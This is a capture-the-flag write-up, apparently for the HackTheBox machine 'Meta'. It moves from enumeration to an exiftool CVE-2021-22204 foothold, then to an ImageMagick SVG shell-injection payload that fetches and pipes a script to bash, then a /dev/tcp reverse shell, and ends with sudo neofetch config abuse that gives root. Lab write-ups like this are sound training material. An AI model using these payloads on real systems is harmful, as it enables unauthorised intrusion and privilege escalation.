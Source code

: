 # Meta

---

## Enumeration

- nmap TCP scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1281175a5ac9c600dbf0ed9364fd1e08 (RSA)
|   256 b5e55953001896a6f842d8c7fb132049 (ECDSA)
|_  256 05e9df71b59f25036bd0468d05454420 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The website redirects to the domain `artcorp.htb` -> added to /etc/hosts
- Found subdomain using `wfuzz`:

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000001492:   200        9 L      24 W       247 Ch      "dev01"
```

- MetaView uses exiftool on the image file to extract the data
- Looks vulnerable to [CVE-2021-22204](https://www.exploit-db.com/exploits/50911)
- Got revshell as `www-data`

```zsh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.140] 57894
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1337

www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm-256color
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ 
```

---

## Horizontal privesc -> TO user thomas

- Ran pspy

```
2022/11/29 23:59:01 CMD: UID=0    PID=2113   | /usr/sbin/CRON -f 
2022/11/29 23:59:01 CMD: UID=1000 PID=2115   | /bin/sh -c /usr/local/bin/convert_images.sh 
2022/11/29 23:59:01 CMD: UID=1000 PID=2116   | /bin/sh -c /usr/local/bin/convert_images.sh 
2022/11/29 23:59:01 CMD: UID=0    PID=2117   | /usr/sbin/CRON -f 
2022/11/29 23:59:01 CMD: UID=1000 PID=2118   | /bin/bash /usr/local/bin/convert_images.sh 
2022/11/29 23:59:01 CMD: UID=0    PID=2119   | /bin/sh -c rm /tmp/* 
2022/11/29 23:59:01 CMD: UID=1000 PID=2120   | pkill mogrify
```

- User `thomas` is periodically running `convert_images.sh` which is a custom script

```sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

```shell
ww-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify

Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
Usage: mogrify [options ...] file [ [options ...] file ...]
```

- Found [SVG Exploit](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)
- Prepared payload and planted it in `convert_images` folder and waited until Thomas ran the mogrify command and it worked
- Payload:

```svg
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:game.svg" height="100" width="100"/>
  </svg>
</image>
```

```bash
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/0wned 
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```

- To get a revshell I prepared a revshell payload:

```sh
cat game.sh       

bash -i >& /dev/tcp/10.10.16.3/9001 0>&1
```

- The SVG payload:

```svg
<image authenticate='ff" `wget -O - 10.10.16.3/game.sh | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:game.svg" height="100" width="100"/>
  </svg>
</image>
```

- Got revshell

```bash
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.140] 37130
bash: cannot set terminal process group (3388): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ whoami
whoami
thomas
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ges$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg       
[1]  + continued  nc -lvnp 9001

<artcorp.htb/convert_images$ export TERM=xterm-256color         

thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ 
```

- Got user.txt and SSH rsa key

---

## PrivEsc to Root

- Ran linpeas.sh on the system and here are some interesting findings:

```
- User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"

- ssh: PermitRootLogin no


```
```bash
thomas@meta:/dev/shm$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

- https://gtfobins.github.io/gtfobins/neofetch
- Since the `XDG_CONFIG_HOME` is being kept during the sudo command, I just wrote `exec /bin/sh` in `/home/thomas/.config/neofetch/config.conf`

```bash
thomas@meta:~/.config/neofetch$ echo 'exec /bin/sh' >> config.conf
```

- now to get root shell:

```bash
thomas@meta:~/.config/neofetch$ sudo neofetch 
# whoami
root

```

---
